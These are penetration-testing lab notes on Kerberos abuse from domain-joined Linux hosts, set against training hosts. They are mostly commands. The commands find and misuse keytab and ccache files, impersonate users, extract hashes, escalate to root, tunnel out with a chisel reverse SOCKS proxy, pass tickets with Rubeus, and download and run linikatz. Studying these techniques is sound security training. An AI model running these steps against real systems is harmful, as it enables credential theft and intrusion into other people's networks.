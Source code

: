 # Kerberos on Linux
- Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in the `/tmp` directory. By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.
#### Linux Auth via Port Forward
```shell
ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```
## Identifying Linux and Active Directory Integration
We can identify if the Linux machine is domain joined using [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd)
#### realm - Check If Linux Machine is Domain Joined
```shell
realm list
```
#### PS - Check if Linux Machine is Domain Joined
```shell
ps -ef | grep -i "winbind\|sssd"
```
# Finding Kerberos Tickets in Linux
## Finding Keytab Files
#### Using Find to Search for Files with Keytab in the Name
```shell
find / -name *keytab* -ls 2>/dev/null
```
`Note: To use a keytab file, we must have read and write (rw) privileges on the file.`
#### Identifying Keytab Files in Cronjobs
```shell
crontab -l
```
In the above script, we notice the use of [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html), which means that Kerberos is in use. [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). We can use `kinit` to import a `keytab` into our session and act as the user.
## Finding ccache Files
- A credential cache or [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file holds Kerberos credentials while they remain valid and, generally, while the user's session lasts.
- The path to this file is placed in the `KRB5CCNAME` environment variable. This variable is used by tools that support Kerberos authentication to find the Kerberos data.
#### Reviewing Environment Variables for ccache Files
```shell
env | grep -i krb5
```
#### Searching for ccache Files in /tmp
```shell
ls -la /tmp
```
## Abusing KeyTab Files
#### Listing keytab File Information
```shell
klist -k -t 
```
#### Impersonating a User with a keytab
```shell
klist
```
```shell
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
```shell
klist
```
#### Connecting to SMB Share as Carlos
```shell
smbclient //dc01/carlos -k -c ls
```
**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable `KRB5CCNAME`.
### Keytab Extract
#### Extracting Keytab Hashes with KeyTabExtract
```shell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
**Note:** A keytab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.
#### Log in as Carlos
```shell
su - carlos@inlanefreight.htb
```
### Obtaining More Hashes
- Carlos has a cronjob that uses a keytab file named `svc_workstations.kt`. We can repeat the process, crack the password, and log in as `svc_workstations`.
## Abusing Keytab ccache
#### Privilege Escalation to Root
```shell
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
```
```shell
sudo -l
```
```shell
sudo su
```
#### Looking for ccache Files
```shell
ls -la /tmp
```
#### Identifying Group Membership with the id Command
```shell
id julio@inlanefreight.htb
```
#### Importing the ccache File into our Current Session
```shell
klist
```
```shell
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell
klist
```
```shell
smbclient //dc01/C$ -k -c ls -no-pass
```
# Using Linux Attack Tools with Kerberos
#### Host File Modified
```shell
cat /etc/hosts
```
#### Proxychains Configuration File
```shell
cat /etc/proxychains.conf
```
#### Download Chisel to our Attack Host
```shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 
```
#### Connect to MS01 with xfreerdp
```shell
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```
#### Execute chisel from MS01
```cmd
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```
#### Setting the KRB5CCNAME Environment Variable
```shell
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```
### Impacket
#### Using Impacket with proxychains and Kerberos Authentication
```shell
proxychains impacket-wmiexec dc01 -k
```
### Evil-Winrm
#### Installing Kerberos Authentication Package
```shell
sudo apt-get install krb5-user -y
```
#### Kerberos Configuration File for INLANEFREIGHT.HTB
```shell
cat /etc/krb5.conf
```
#### Using Evil-WinRM with Kerberos
```shell
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```
## Miscellaneous
#### Impacket Ticket Converter
```shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.
#### Importing Converted Ticket into Windows Session with Rubeus
```cmd
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```
## Linikatz
- [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. 
- In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.
#### Linikatz Download and Execution
```shell
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
```
